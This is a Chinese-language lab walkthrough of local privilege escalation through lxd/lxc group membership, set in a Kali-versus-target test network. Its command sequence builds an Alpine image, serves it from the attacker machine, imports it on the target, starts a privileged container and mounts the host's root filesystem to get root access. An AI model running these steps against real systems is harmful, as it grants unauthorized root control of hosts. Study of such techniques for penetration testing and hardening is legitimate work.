 # lxd/lxc提权

### 漏洞介绍

lxd是一个root进程，它可以负责执行任意用户的lxd，unix套接字写入访问操作。而且在一些情况下，lxd不会调用它的用户权限进行检查和匹配

**原理**可以理解为用用户创建一个容器，再用容器挂载宿主机磁盘，最后使用容器权限操作宿主机磁盘内容达到提权效果

**提权复现**

环境：攻击机kali 192.168.31.131 靶机 192.168.31.134

![image-20231125152324099](http://111.229.225.13:81/i/2023/11/25/p6ww6l-2.png)

![image-20231125152414099](http://111.229.225.13:81/i/2023/11/25/p7fvx1-2.png)

在攻击机kali上操作

通过git将构建好的alpine镜像克隆到本地,并构建

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

然后将**自己操作系统对应架构**tar文件发送到靶机上

```bash
python -m http.server 8848
```

然后在下载的目录上使用此命令导入镜像

```bash
lxc image import ./alpine*.tar.gz --alias myimage 
```

初始化镜像,一路回车选择默认，不过会有几个显示以及存在default，让你重命名的，选择了就可以

```bash
lxd init
```

可能最后报错，但是也没关系

例如

![image-20231125171111579](http://111.229.225.13:81/i/2023/11/25/sarf0w-2.png)

运行镜像

```bash
lxc init myimage mycontainer -c security.privileged=true
```

将/root挂载到镜像中

```bash
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

与镜像交互

```bash
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

![image-20231125171236266](http://111.229.225.13:81/i/2023/11/25/sbi46m-2.png)